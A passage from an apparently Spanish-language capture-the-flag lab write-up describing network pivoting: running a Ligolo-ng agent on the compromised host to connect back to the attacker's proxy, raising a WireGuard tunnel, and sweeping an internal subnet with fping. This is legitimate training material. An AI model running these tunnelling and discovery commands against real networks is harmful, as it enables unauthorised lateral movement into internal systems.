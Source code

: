 ![](assets/img/thl-writeup-thlcppt_v16/thlcppt_v164_2.png)

* En el sistema víctima, ejecuto el agente para conectarse a mi proxy.

```terminal
root@rafael:~# ./agent -connect 192.168.0.171:11601 -ignore-cert
WARN[0000] warning, certificate validation disable
INFO[0000] Connection established			addr="192.168.0.171:11601"
```

![](assets/img/thl-writeup-thlcppt_v16/thlcppt_v164_3.png)

Una vez establecido el túnel de Ligolo-ng, levanto la interfaz de WireGuard utilizando el archivo de configuración `tunnelRafael.conf`.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ wg-quick up tunnelRafael.conf
```

![](assets/img/thl-writeup-thlcppt_v16/thlcppt_v164_4.png)

Utilizo fping para escanear la subred `10.13.13.0/24` y confirmar los hosts activos.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ fping -asgq 10.13.13.1/24
10.13.13.1
10.13.13.2
10.13.13.3
```
